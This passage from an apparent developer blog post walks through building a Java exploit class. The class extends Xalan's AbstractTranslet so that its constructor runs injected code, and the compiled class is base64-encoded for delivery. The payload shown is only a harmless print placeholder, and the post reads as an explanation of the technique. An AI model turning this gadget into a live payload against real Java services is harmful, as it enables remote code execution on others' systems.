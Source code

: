 ![Bad request](/assets/posts/2019-01-25-security-exploits/workflow.png)

If you want to try this on your own just compile a Java class and use any converter to create a base64 based string out of the content of the class file. You can even create such tool by yourself with some lines of Java code:

{% highlight java %}
public class Encoder {

    public static void main(String[] args) throws Exception {
        byte[] classBytes = Files.readAllBytes(new File("target/classes/com/karakun/dev/Bomb.class").toPath());
        byte[] encodedBytes = Base64.getEncoder().encode(classBytes);
        System.out.println(new String(encodedBytes));
    }
}
{% endhighlight %}

The given code directly prints the base64 encoded string as output of the program to your terminal. If you want to do this with a class that you can use for the exploit you need to extend a specific class that is defined by xalan. Simply add `org.apache.xalan.xsltc.runtime.AbstractTranslet` class. The 2 abstract methods can be implemented with an empty body they are not used for the exploit. The really interesting part is the constructor of your class. Here you can easily add some custom code like I did in the following sample:

{% highlight java %}
public class Bomb extends org.apache.xalan.xsltc.runtime.AbstractTranslet {

    public Bomb() {
      super.transletVersion = CURRENT_TRANSLET_VERSION;

      //Now we can do evil stuff
      System.out.println("BOOOOOOOOM!");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
      // empty
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
      // empty
    }
}
{% endhighlight %}

